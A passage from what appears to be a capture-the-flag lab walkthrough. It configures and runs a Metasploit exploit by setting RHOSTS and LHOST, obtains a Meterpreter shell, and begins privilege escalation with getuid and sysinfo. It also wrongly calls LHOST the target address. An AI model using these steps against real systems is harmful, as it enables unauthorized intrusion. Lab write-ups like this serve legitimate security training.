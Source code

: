### Let configure this Exploit to gain Shell.

* #### Type ```show options``` so knew about required settings.

<div align="center">
<img src="https://github.com/user-attachments/assets/024e6a76-e14c-4101-b7d9-798a3e0f078a" height=""></img>
</div>

* #### We only need to set is RHOSTS and Our LHOST the Target Address.
* #### For setting RHOSTS use:
```
set RHOSTS <Target IP>
```

<div align="center">
<img src="https://github.com/user-attachments/assets/fa47950a-1847-45b5-bc6e-198a3e1414cb" height=""></img>
</div>

* #### For setting LHOST use:
```
set LHOST <Target IP>
```
<div align="center">
<img src="https://github.com/user-attachments/assets/9f3acd6b-a3c3-4d20-a3db-f0c030f8ab52" height=""></img>
</div>

### So it time to Run Exploit
```
run
```

<div align="center">
<img src="https://github.com/user-attachments/assets/ba03e8ef-93a6-4599-8655-88127d4876af" height=""></img>
</div>

### We got the meterpreter Shell

## Task 4. Escalate
###  Let get the user id using command
```
getuid
```

<div align="center">
<img src="https://github.com/user-attachments/assets/c97d9f94-5a8f-4410-bf84-c8a512020b6e" height=""></img>
</div>

* ### The ```Dark``` is the user.

### Let take a view at system info.
```
sysinfo
```
<div align="center">
<img src="https://github.com/user-attachments/assets/4d8f5795-c2d8-46b1-8f5c-add9b7efa21d" height=""></img>
</div>
